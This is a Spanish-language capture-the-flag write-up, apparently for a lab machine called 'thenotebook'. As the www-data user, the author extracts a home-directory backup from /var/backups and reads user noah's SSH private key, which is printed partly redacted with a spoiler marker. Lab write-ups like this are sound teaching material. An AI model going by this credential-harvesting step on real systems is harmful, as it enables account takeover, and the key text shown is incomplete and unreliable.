 Me las he dado de listo y nada , no tenemos permisos para leer user.txt

## Haciendo reconocimiento

He estado mirando varias cosas. Siempre que no encontremos nada por encima y sepamos que hay una copia de seguridad deberías buscar en /var/backups

He realizado un tar xf home.tar.gz y aunque no nos deja descomprimir aparece lo siguiente. un id_rsa

![](assets/2022-07-01-20-06-19.png)

cat /home/noah/.ssh/id_rsa

Nos da problemas de permisos. Voy a crear un archivo temporal ponerlo ahí y descomprimir

### Crear carpeta temporal y pasar el archivo de backup
```bash
www-data@thenotebook:/var/backups$ mktemp -d
/tmp/tmp.CDxmqVJjB0
www-data@thenotebook:/var/backups$ ^C
www-data@thenotebook:/var/backups$ cd /tmp/tmp.CDxmqVJjB0
www-data@thenotebook:/tmp/tmp.CDxmqVJjB0$ ls
www-data@thenotebook:/tmp/tmp.CDxmqVJjB0$ cp /var/backups/home.tar.gz .
www-data@thenotebook:/tmp/tmp.CDxmqVJjB0$ ls
home.tar.gz

```
### Descomprmir ver contenido y sobre todo id_rsa

```bash

www-data@thenotebook:/tmp/tmp.CDxmqVJjB0$ tar xf home.tar.gz 
www-data@thenotebook:/tmp/tmp.CDxmqVJjB0$ ls
home  home.tar.gz
www-data@thenotebook:/tmp/tmp.CDxmqVJjB0$ cd home
www-data@thenotebook:/tmp/tmp.CDxmqVJjB0/home$ cd noah/     
www-data@thenotebook:/tmp/tmp.CDxmqVJjB0/home/noah$ ls
www-data@thenotebook:/tmp/tmp.CDxmqVJjB0/home/noah$ ls -la
total 32
drwxr-xr-x 5 www-data www-data 4096 Feb 17  2021 .
drwxr-xr-x 3 www-data www-data 4096 Feb 12  2021 ..
-rw-r--r-- 1 www-data www-data  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 www-data www-data 3771 Apr  4  2018 .bashrc
drwx------ 2 www-data www-data 4096 Feb 16  2021 .cache
drwx------ 3 www-data www-data 4096 Feb 12  2021 .gnupg
-rw-r--r-- 1 www-data www-data  807 Apr  4  2018 .profile
drwx------ 2 www-data www-data 4096 Feb 17  2021 .ssh
www-data@thenotebook:/tmp/tmp.CDxmqVJjB0/home/noah$ cd .ssh
www-data@thenotebook:/tmp/tmp.CDxmqVJjB0/home/noah/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
www-data@thenotebook:/tmp/tmp.CDxmqVJjB0/home/noah/.ssh$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EvriwCrtrHo/ulwT
rLymqVz[...spoiler...]]zvo+e3CXlBZ
vglmvw2DW6l0EwX+A+ZuSmiZAyyK8gPFxpocJrk3esdT7RuKkVCPJ
z2yn8QE6Rg+yWZpP2hzPKFtE7evH6JUrnjm5LTKEreco+
8iCuZAcCgYEA1fhcJzNwEUb2EOV/AI23rYpViF6SiDTfJrtV6ZCLTuKKhdvuqkKr
JjwmBxv0VN6MDmJ4OhYo1ZR6WiTMYq6kFGCmSCATPl4wbGmwb0ZHb0WBSbj5ErQ+
Uh6he5GM5rTstMjtGN+OQ0Z8UZ6c0HBM0ulkBT9IUIUEdLFntA4oAVQ=
```